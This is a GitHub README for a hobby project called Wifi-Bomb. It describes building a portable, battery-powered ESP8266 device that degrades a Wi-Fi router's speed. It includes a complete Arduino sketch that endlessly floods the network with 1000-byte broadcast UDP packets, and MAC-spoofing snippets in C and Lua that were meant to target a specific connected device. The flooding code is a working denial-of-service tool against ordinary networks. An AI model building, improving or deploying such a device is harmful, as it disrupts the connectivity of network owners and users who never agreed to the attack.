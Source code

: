 # Wifi-Bomb



The goal of Wifi-Bomb project is to slow down the speed of a router. For this, it performs a DDOS attack by sending a lot of network packets.



Requirement
-------------
 * Wemos D1 Mini V2 (ESP8266)
 * 2*battery AAA LR03
 * ON/OFF Switch 

![enter image description here](http://img4.hostingpics.net/pics/287422final.png)



Dashboard 
-------------

At the beginning, we wanted the Wifi-Bomb project to disrupt the connection of a connected device to the router. But the application requires to know the MAC address of the connected device. We could'nt change the mac address with the ESP8266 library. 

We tried the following code in order to change the mac address. We found that the wifi_set_macaddr () method didn't work because the method returned always false.

```C
byte mac[] = { 0xDE, 0xAD, 0xBE, 0xEF, 0xFE, 0xED };
  
  if(wifi_set_macaddr(SOFTAP_IF, &mac[0])){
    Serial.println("Mac Adress change");
  }
  else{
    Serial.println("Mac Adress didn't change");
  }
```

Then, we looked the code of the library "Wifi Manager" to see an example of inclusion of libraries.

This is the link of the project: https://github.com/jordanmarques/wifi-bomb/blob/mac_address/wifi-bomb.ino

After that, we used a "node MCU" in order to "jam" the network via a LUA code because we can change the MAC address with it. But onn the other hand, we could not make an access point via this solution. Moreover, the associated idea is not adapted to our needs, so we have abandoned this solution.

![Node MCU](http://www.webondevices.com/wp-content/uploads/2015/11/113990105-1.jpg)

Here's the nodemcu code for change the mac address in lua. 
```C
wifi.setmode(1)
wifi.sta.config("SSID","PSWD")
wifi.sta.setmac("\000\217\209\006\027\000")
tmr.alarm(0, 6000, 1, function()
    print("Start")
    wifi.sta.connect()
    print(wifi.sta.getip())
    print("End")
end )
```

We looked for another type of wifi attack. We found a [tutorial](https://yoursunny.com/t/2016/WiFi-flood/) to slow down the speed of a wifi connection. In this tutorial we found a code which create many network packets, then send them to a router. Each packet contain 1000 byte. This method is called a DDOS.

This is the code we found in the tutorial:
```C
#include <ESP8266WiFi.h>
#include <WiFiUdp.h>

uint8_t pkt[1000];

void setup() {
  Serial.begin(115200);

  WiFi.mode(WIFI_AP);
  WiFi.softAP("00000000", "00000000", 6, 1);

  memset(pkt, 0, sizeof(pkt));
}

void loop() {
  WiFiUDP udp;
  udp.beginPacketMulticast(WiFi.softAPIP(), 1, IPAddress(255,255,255,255), 1);
  udp.write(pkt, sizeof(pkt));
  udp.endPacket();
}
```

So we developed a code to connect to a router. 
This code contained an interface to connect to a wifi access point via an form.
We encountered a problem with the arduino that connected to the same router than the one which we wanted to "jam".
So we chose to use Wifi Manager library because it was simpler and more convenient to use.
After a few bugs, we finally managed to validate the connection to a wifi network and to inject a large number of packets in order to slow down the speed wifi of this network.

In parallel, we have welded the arduino to an external battery in order to be able to use it from anywhere.
